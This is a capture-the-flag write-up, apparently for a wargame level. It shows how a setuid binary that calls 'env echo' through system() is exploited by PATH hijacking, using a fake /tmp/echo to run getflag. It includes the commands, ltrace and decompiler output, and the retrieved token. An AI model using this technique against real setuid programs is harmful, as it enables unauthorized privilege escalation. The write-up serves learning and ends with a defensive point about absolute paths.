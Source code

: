 # Level03 Documentation

## Objective
Exploit a vulnerable binary to retrieve the token for `level04` by manipulating the `PATH` environment variable.

---

## Approach & Tools
- **Technique**: Path hijacking and environment variable manipulation.
- **Commands**: `ln` or `echo` , `export`, `ltrace`, `su`.
- **Tools**: [ghidra](https://ghidra-sre.org/) (optional).

## Step-by-Step Solution

### 1. Locate the binary file
once we log into level03 account we find a binary named ```level03```.
```bash
ls -la /home/user/level03/
```
#### Output:
```bash
-dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
```

### 1. Analyze the Binary
The `level03` binary prints "Exploit me" and dont take any do not accept any command line arguments nor any does it takes any input. we can use [ltrace](https://www.man7.org/linux/man-pages/man1/ltrace.1.html). to trace system calls in ```level03``.
```bash
ltrace ./level03
```

#### output
```bash
__libc_start_main(0x80484a4, 1, 0xbffffd14, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                       = 2003
geteuid()                                                       = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)             = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)             = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                          = 0
+++ exited (status 0) +++
```

To better visualize this code we can use a decompile that can reconstruct this code to more higher level code, such as C / C++. i used ghidra

The decompiled code from Ghidra is as follows :
```c
int main(int argc,char **argv,char **envp)
{
  __gid_t __rgid;
  __uid_t __ruid;
  int iVar1;
  gid_t gid;
  uid_t uid;
  
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  iVar1 = system("/usr/bin/env echo Exploit me");
  return iVar1;
}
```
### 2. Exploit the PATH
The binary uses env to find echo, which searches PATH. we can hijack that: 
```bash
# Create a fake 'echo' that runs getflag
echo "getflag" > /tmp/echo
# add execution permission to the fake 'echo'
chmod +x /tmp/echo
# Make our /tmp first in PATH
export PATH=/tmp:$PATH
# Run the binary
./level03
```
or using `ln` symbolic link:
```bash
# Create a fake 'echo' that runs getflag
ln -s /bin/getflag /tmp/echo
# Make our /tmp first in PATH
export PATH=/tmp:$PATH
# Run the binary
./level03
```
#### output
```bash
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
### Key Takeaways

* ltrace is Your Friend: Quickly reveals system functions calls and without complex dicompliaer.
* PATH Exploitation: Control over PATH allows hijacking command execution.
* Symbolic Links: Use ln -s to redirect command execution.
* Least Privilege: Programs should use absolute paths for security-critical binaries.
